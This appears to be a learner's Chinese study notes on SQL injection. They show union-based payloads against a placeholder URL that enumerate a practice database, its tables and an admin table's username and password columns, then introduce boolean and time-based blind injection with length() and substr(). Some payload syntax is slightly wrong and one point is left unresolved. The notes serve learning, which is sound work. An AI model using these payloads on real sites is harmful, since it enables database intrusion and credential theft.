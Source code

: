        方法：

       - 使用联合查询：

         `http://域名/?id =1 and 1=2 union select 1,2 `

         使用`id=1 and 1=2`是因为union的时候要两个表的字段数相同才可以显示，让前面那条语句为false就可以了。

       知道回显点在哪里，就可以查询数据库，表，字段名了。

     - **显示数据库名：**

       `http://域名/?id =1 and 1=2 union select 1,database()`

       得到数据库名：**maoshe**

       **显示表名：**

       `http://域名/?id =1 and 1=2 union select 1,table_name() from information_schema.tables where table_schema='maoshe' limit 0,1`

       修改limit参数。

       得到表名：**admin、dir、xss**

       **显示字段名：**

       `http://域名/?id =1 and 1=2 union select 1,column_name() from information_schema.columns where table_name='admin' limit 0,1`

       修改limit参数。

       得到字段名：**username、password**

  3. 当id有引号的时候，人为闭合？？`id=1'`,不懂

     传到数据库的时候会有显示为`id='1' and 1=1'`，加上--qwe？？

# 盲注

- 迂回绕过

  页面不显示

- 什么是盲注：

  目标存在注入，但在页面上没有任何回显。盲注就是问问题。

  1. 布尔盲注：直接返回true或者false
  2. 时间盲注：返回时间的长短判断注入的语句是否正确

- 盲注函数解析：

  1. length()函数

     `length(database())`:返回数据库名字的长度

     `id =1 and length(database())>几`

  2. `substr(database(),2,1)`函数，从1开始。

     `id =1 and substr(database(),1,1)='k'`：数据库的第一个字母是不是k
